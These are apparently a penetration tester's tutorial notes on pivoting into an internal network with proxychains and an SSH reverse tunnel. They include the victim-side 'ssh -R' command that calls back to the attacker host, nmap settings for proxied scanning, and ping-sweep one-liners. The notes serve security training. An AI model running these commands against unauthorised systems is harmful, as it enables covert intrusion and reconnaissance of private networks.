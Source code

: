# Pivoting to an Internal Network with proxychains and SSH

Think of pivoting like: creating a tunnel for kali to wrap traffic within 
- This forces traffic from the kali machine thru the tunnel FIRST, thus allowing scanning the internal network from the victim machine
- traffic looks like it is coming from internal
- possible on any client with SSH client *OVER 7.6*

*On attacker*

`sudo vim /etc/proxychains4.conf`
- Comment out `strict_chain`
- Uncomment `dynamic_chain`
- Comment out `proxy_dns`
- Uncomment `quiet_mode`
- Change the default at the bottom to: `socks5 127.0.0.1 <portUchoose>`
    - be sure this port is unique

Make sure ssh is listening -> `sudo systemctl start/status ssh.service`

*On Victim*

`sudo ssh -N -f -R 127.0.0.1:<ipSetOnKali> user@attacker -p <differentPort>`
- you should see the regular prompts from SSH, after accepting the connection and typing the password...
- Check on attacker box `netstat -natp` you should see an open listener on 127.0.0.1<port>
- This port that is picked NEEDS to be forwarded on the router, preferably forwarding to port 22 on the host, that way we dont need to make ssh config changes

Now you can run nmap scans and even wrap tools like msfconsole in the proxy! No need to fumble around seeing if modules are even compatable with proxies.

Keep in mind, nmap *MUST* be run with: `-sT -Pn`. Without these the scan will fail as we only have access to L7 thru proxychains.

You can run a ping sweep from the victim box by:

Windows `for /l %i in (1,1,254) do @ping -n 1 -w 100 192.168.0.%i | find "Reply"` 
Linux `for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done `

Copy the Data to kali and now you have internal targets!


